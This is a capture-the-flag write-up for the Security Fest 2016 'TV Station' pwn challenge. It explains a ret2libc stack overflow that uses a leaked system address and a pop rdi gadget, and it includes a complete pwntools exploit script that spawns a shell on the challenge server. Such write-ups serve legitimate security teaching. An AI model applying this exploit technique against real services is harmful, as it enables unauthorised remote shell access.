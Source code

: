 ```yaml
---
layout: post
title: Tvstation
category: Security Fest 2016
---
```


Hi , this a task from securityfest2016 "TV Station - Pwn (100)"

so here i will talk about my write up in securityfest2016 
i just play for fun so i solved some tasks (web,rev,pwn) and then stop playing because it was boring to play alone 
and change from categorie to another 

so lets start

this task give us a simple menu : 

```
=== TV Station - Control Panel ===
   1) Show uptime
   2) Show current user
   3) Exit
   
```

so the first show us the time 
```
 16:30:32 up 10 days, 14:31,  1 user,  load average: 1.00, 0.99, 0.88
```

and the second run system('id')
but when we reverse the code we get that when we send 4 we get 

```
=== TV Station - Debug Menu ===
[Debug menu] system is @0x7fa4619045f0
[Debug menu] Enter cmd:

```

and here where we start :D

we get the address of system and in the cmd we have buffer overflow but :/ aslr / Nx  : on

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

so what we need is to run system('/bin/sh')

The buffer is expecting 40 bytes. Anything over that will start to write outside 

We need now : 

1. Lib add (nm -D libc-2.19.so | grep __libc_system).
2. Get pop rdi.
3. Cal @add system.
4. Cal @add "/bin/sh"


and our payload will be : "A*40+add_pop_rdi+add_binsh+add_sys"

after some calcule :

we write the code 

```
#!/usr/bin/python
from pwn import *

s = remote("pwn2.securityfest.ctf.rocks", 3000)
b = ""

print s.recvuntil(": ")
s.sendline("4")
s.recvuntil("@0x")

# get system add from the result
system = s.recv(12)
b = int(system,16) - 0x465f0 #0x465f0 from lib

s.recvuntil("cmd:")

#calcule the add of "/bin/sh" and "pop rdi"
binsh = b + 0x17ca63
poprdi = b + 0x22b9a

#generate the payload for 64 bit
payload = ""
payload += "A"*40
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(int(system,16))

s.sendline(payload)

s.interactive()

```


and pwned :D 

![pwn](https://user-images.githubusercontent.com/7364615/55635283-379ac680-57b8-11e9-96a8-abd6e1dde411.png)

